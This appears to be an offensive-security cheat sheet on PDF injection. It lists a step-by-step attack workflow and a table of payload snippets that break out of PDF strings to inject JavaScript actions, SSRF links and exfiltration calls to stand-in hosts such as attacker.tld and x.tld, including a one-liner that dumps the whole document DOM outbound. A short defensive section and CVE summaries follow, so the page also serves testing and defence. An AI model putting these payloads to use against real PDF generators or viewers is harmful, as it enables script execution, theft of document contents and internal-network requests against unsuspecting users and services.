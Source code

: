 # PDF Injection

**If your input is being reflected inside a PDF file, you can try to inject PDF data to execute JavaScript, perform SSRF or steal the PDF content.**  
PDF syntax is extremely permissive – if you can break out of the string or dictionary that is embedding your input you can append totally new objects (or new keys in the same object) that Acrobat/Chrome will happily parse.  
Since 2024 a wave of bug-bounty reports have shown that *one unescaped parenthesis or back-slash is enough* for full script execution.

## TL;DR – Modern Attack Workflow (2024)
1. Find any user-controlled value that ends up inside a **(parenthesis string)**, `/URI ( … )` or `/JS ( … )` field in the generated PDF.
2. Inject `) ` (closing the string) followed by one of the primitives below and finish with another opening parenthesis to keep the syntax valid.
3. Deliver the malicious PDF to a victim (or to a backend service that automatically renders the file – great for blind bugs).
4. Your payload runs in the PDF viewer:
   * Chrome / Edge → PDFium Sandbox
   * Firefox → PDF.js (see CVE-2024-4367)
   * Acrobat → Full JavaScript API (can exfiltrate arbitrary file contents with `this.getPageNthWord`)  

Example (annotation link hijack):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next ( 
```
*The first `)` closes the original URI string, we then add a new **Action** dictionary that Acrobat will execute when the user clicks the link.*

## Useful Injection Primitives
| Goal | Payload Snippet | Notes |
|------|-----------------|-------|
| **JavaScript on open** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Executes instantly when the document is opened (works in Acrobat, not in Chrome). |
| **JavaScript on link** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Works in PDFium & Acrobat if you control a `/Link` annotation. |
| **Blind data exfiltration** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Combine with `this.getPageNthWord` inside JS to steal content. |
| **Server-Side SSRF** | Same as above but target an internal URL – great when the PDF is rendered by back-office services that honour `/URI`. |
| **Line Break for new objects** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | If the library lets you inject new-line characters you can create totally new objects. |

## Blind Enumeration Trick
Gareth Heyes (PortSwigger) released a one-liner that enumerates every object inside an unknown document – handy when you cannot see the generated PDF:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
The code iterates over the Acrobat DOM and makes outbound requests for every property/value pair, giving you a *JSON-ish* dump of the file.  
See the white-paper “Portable Data **ex**Filtration” for the full technique.

## Real-World Bugs (2023-2025)
* **CVE-2024-4367** – Arbitrary JavaScript execution in Firefox’s PDF.js prior to 4.2.67 bypassed the sandbox with a crafted `/JavaScript` action.  
* **Bug bounty 2024-05** – Major fintech allowed customer-supplied invoice notes that landed in `/URI`; report paid $10k after demonstrated SSRF to internal metadata host using `file:///` URI.
* **CVE-2023-26155** – `node-qpdf` command-injection via unsanitised PDF path shows the importance of escaping backslashes and parentheses even *before* the PDF layer.  

## Defensive Cheatsheet
1. **Never concatenate raw user input** inside `(`…`)` strings or names. Escape `\`, `(`, `)` as required by §7.3 of the PDF spec or use hex strings `<...>`.
2. If you build links, prefer `/URI (https://…)` that you *fully* URL-encode; block `javascript:` schemes in client viewers.
3. Strip or validate `/OpenAction`, `/AA` (additional actions), `/Launch`, `/SubmitForm` and `/ImportData` dictionaries when post-processing PDFs.
4. On the server side, render untrusted PDFs with a *headless converter* (e.g. qpdf –decrypt –linearize) that removes JavaScript and external actions.
5. Keep PDF viewers up to date; PDF.js < 4.2.67 and Acrobat Reader before July 2024 patches allow trivial code execution.

## References
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (updated May 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (Apr 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>

